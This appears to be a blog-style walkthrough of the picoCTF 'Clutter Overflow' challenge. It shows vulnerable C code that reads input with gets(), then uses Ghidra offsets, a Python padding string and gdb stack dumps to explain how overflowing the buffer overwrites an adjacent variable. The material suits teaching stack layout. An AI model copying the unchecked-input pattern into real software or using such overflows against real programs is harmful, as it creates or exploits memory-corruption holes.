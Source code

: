 # Clutter Overflow: Understanding Stack Layout and Exploiting Buffer Overflow

## Introduction 📚
[In this challenge](https://play.picoctf.org/practice/challenge/216?category=6&page=1), picoCTF provides a binary and source code.
The source code is not necessarily required since the process of reversing and tackling the challenge is quite straightforward.  

Buffer overflow vulnerabilities can pose a significant risk to software security. In this blog post, we will explore the concept of buffer overflow through the context of the "Clutter Overflow" challenge from picoCTF. We will dissect the provided code, understand the stack layout, and demonstrate how to exploit a buffer overflow to achieve the desired goal.

## Understanding the Challenge 🤔
The "Clutter Overflow" challenge presents us with a binary file and its corresponding source code. The goal is to reach a specific condition within the code by modifying a variable called code. However, conventional methods of modifying the code variable are restricted. We will leverage a buffer overflow vulnerability to manipulate the program's behavior and reach the desired condition.

Although this challenge is pretty it can be a good example to demonstrate the stack layout.

## Analyzing the Code 🔬
Let's take a closer look at the provided code to understand the vulnerability and the desired condition:
```C
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = "Irrelevant ASCII art";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}

```

Obviously we need to get into this condition:
```C
if (code == GOAL)
```

## Exploiting the Buffer Overflow 💣
To exploit the buffer overflow vulnerability in the "Clutter Overflow" challenge, we need to understand the stack layout and overwrite the code variable with the value 0xdeadbeef.

### Identifying Stack Layout 🔍
![Alt text](image.png)
Analyzing the code in a ghidra, we observe that the buffer clutter starts at an offset of -0x118 from the base pointer (rbp). The variable code is located at an offset of -0x10 from the base pointer. Understanding this layout is crucial for exploiting the buffer overflow.

### Generating an Input 📥
To trigger the buffer overflow, we can generate an input string that overflows the clutter buffer and overwrites the code variable. For example, we can create a payload using Python:
```python 
>>> "A" * 264 + "B" * 8
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB'
```
Let's overflow the buffer and see what happens.
```bash
gdb ./chall
```
Set break point right after where the overflow occured. 
![Alt text](image-1.png)
```bash
b *0x0040075a
```

Execute the program and use our generated string as input. Next, we will analyze the stack. To examine the stack, we will begin by printing the contents of the $rsp register.
```bash
x/64gx $rsp
```
```
0x7fffffffd850: 0x4141414141414141      0x4141414141414141
0x7fffffffd860: 0x4141414141414141      0x4141414141414141
0x7fffffffd870: 0x4141414141414141      0x4141414141414141
0x7fffffffd880: 0x4141414141414141      0x4141414141414141
0x7fffffffd890: 0x4141414141414141      0x4141414141414141
0x7fffffffd8a0: 0x4141414141414141      0x4141414141414141
0x7fffffffd8b0: 0x4141414141414141      0x4141414141414141
0x7fffffffd8c0: 0x4141414141414141      0x4141414141414141
0x7fffffffd8d0: 0x4141414141414141      0x4141414141414141
0x7fffffffd8e0: 0x4141414141414141      0x4141414141414141
0x7fffffffd8f0: 0x4141414141414141      0x4141414141414141
0x7fffffffd900: 0x4141414141414141      0x4141414141414141
0x7fffffffd910: 0x4141414141414141      0x4141414141414141
0x7fffffffd920: 0x4141414141414141      0x4141414141414141
0x7fffffffd930: 0x4141414141414141      0x4141414141414141
0x7fffffffd940: 0x4141414141414141      0x4141414141414141
0x7fffffffd950: 0x4141414141414141      0x4242424242424242
0x7fffffffd960: 0x0000000000400700      0x00007ffff7a03c87
```
And that's the intriguing part. By observing, we can notice that 0x42 is located at higher memory addresses. As the buffer fills up, the memory addresses ascend. However, the closer we approach the higher addresses, the closer we get to the beginning of the stack. This interestingly indicates that the stack is somewhat inverted. To visualize this concept more clearly, let's take a look at a diagram.
I took the picture from [here](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64)
![Alt text](image-2.png)

Local variables are defined at $rbp - x, and the arguments passed to the function are pushed onto the stack ($rbp + y)before the function is called.

In summary, the buffer starts at -0x118, and as we fill it, we approach -0x10. At this point, we can overwrite it with the value 0xdeadbeef and successfully conquer this challenge.

Thanks for reading.
